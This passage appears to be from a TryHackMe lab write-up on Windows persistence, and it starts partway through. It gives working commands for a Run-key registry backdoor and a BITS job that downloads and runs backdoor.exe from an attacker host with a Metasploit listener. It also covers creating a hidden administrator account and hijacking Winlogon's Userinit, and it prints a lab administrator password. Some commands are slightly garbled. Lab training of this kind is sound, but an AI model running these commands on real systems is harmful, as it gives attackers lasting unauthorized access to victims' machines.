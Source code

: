 Drop into a shell and use the reg add function to create a registry that will run our backdoor as follows:

```
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /v Backdoor /t REG_SZ /d "C:\Users\tryhackme\AppData\Roaming\shell.exe" 
```

3. BITS (Background Intelligent Transfer Service)﻿ is used for file transfer between machines (downloading or uploading) using idle network bandwidth.

BITS Jobs are containers that contain files that need to be transferred. However, when creating the job the container is empty and it needs to be populated (specify one or more files to be transferred). It's also needed to add the source and the destination.
Now that we know what BITS is and what jobs are used for let's try achieving persistence.
You can view the BITS help menu by typing: bitsadmin in the command line/the shell you spawned.

1. Let's create the job: `bitsadmin /create backdoor`
2. Add the file for the job that will be transferred: b`itsadmin /addfile backdoor "http://$IP:backdoor.exe" "C:\Users\tryhackme\Documents\backdoor.exe"`
3. make BITS execute our backdoor: `bitsadmin /SetNotifyCmdLine 1 cmd.exe "/c bitsadmin.exe /complete backdoor | start /B C:\Users\tryhackme\Documents\backdoor.exe`
4. NULL is used at the end of the syntax because our backdoor doesn't have any additional parameters.
Since we want our backdoor to be persistent we'll set a retry delay for the job.
`bitsadmin /SetMinRetryDelay backdoor 30`
5. Finally, we'll start/resume the job.

**Note: In order to work you have to have a webserver (i used apache) running so BITS can download the backdoor and Metasploit listening for connections.**

To execute the job type: bitsadmin /resume. 

**Note: BITS is very unstable and can and might give you just temporary persistence.**

# Privileged Users Persistence

## Credentials

`Administrator`:`Tryhackme123!`

# Creating another administrator user

1. Drop into a shell and create a new user. The syntax is: `net user /add <USER> <PASSWORD>`.
2. Now just add the username to the local administrators' group. `net localgroup Administrators Backdoor /add`
3. By checking the users that are in the Administrators' group we can see our newly created and added user: `net localgroup Administrators`

# Editing registries

We can backdoor the Winlogon so when a user logs in our backdoor will get executed. The registry used is: `HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon`. Upload the backdoor if you haven't and add the registry entry. The command is:
`reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Userinit /d "Userinit.exe, <PATH_TO_BINARY>" /f`
